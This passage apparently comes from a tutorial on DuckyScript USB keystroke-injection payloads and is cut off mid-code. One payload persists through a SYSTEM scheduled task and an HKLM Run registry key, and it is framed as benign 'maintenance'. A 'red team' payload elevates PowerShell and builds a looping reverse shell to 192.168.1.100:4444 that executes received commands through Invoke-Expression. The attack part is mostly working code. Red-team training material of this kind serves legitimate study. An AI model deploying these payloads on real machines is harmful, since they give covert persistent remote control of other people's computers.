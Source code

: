 ```bash
echo Maintenance complete.
"@
ENTER

STRING $maintenanceScript | Out-File -FilePath "C:\scripts\system_maintenance.bat" -Encoding ASCII
ENTER

# Create scheduled task for daily maintenance
STRING schtasks /create /tn "DailyMaintenance" /tr "C:\scripts\system_maintenance.bat" /sc daily /st 02:00 /ru SYSTEM /f
ENTER

# Create registry entry as backup
STRING reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "SystemMaintenance" /t REG_SZ /d "C:\scripts\system_maintenance.bat" /f
ENTER

STRING exit
ENTER
```

**What this does:**
1. Creates a maintenance script that runs daily at 2 AM
2. Sets up a scheduled task for automated execution
3. Adds a registry entry as a backup persistence mechanism
4. Logs all activities for audit purposes

---

## The Red Team Perspective

###  **Establishing Command & Control**

In red team scenarios, persistence is about maintaining access and establishing reliable communication channels:

```bash
# Red Team Persistence Example
ATTACKMODE HID
DELAY 2000

# Create reverse shell persistence
MOD r
DELAY 500
STRING powershell -Command "Start-Process PowerShell -Verb RunAs"
ENTER
DELAY 3000

# Create persistent reverse shell
STRING $reverseShell = @"
while($true) {
    try {
        $client = New-Object System.Net.Sockets.TCPClient("192.168.1.100", 4444)
        $stream = $client.GetStream()
        $reader = New-Object System.IO.StreamReader($stream)
        $writer = New-Object System.IO.StreamWriter($stream)
        
        while($true) {
            $command = $reader.ReadLine()
            if($command -eq "exit") { break }
            
            $output = Invoke-Expression $command 2>&1
            $writer.WriteLine($output)
            $writer.Flush()
```
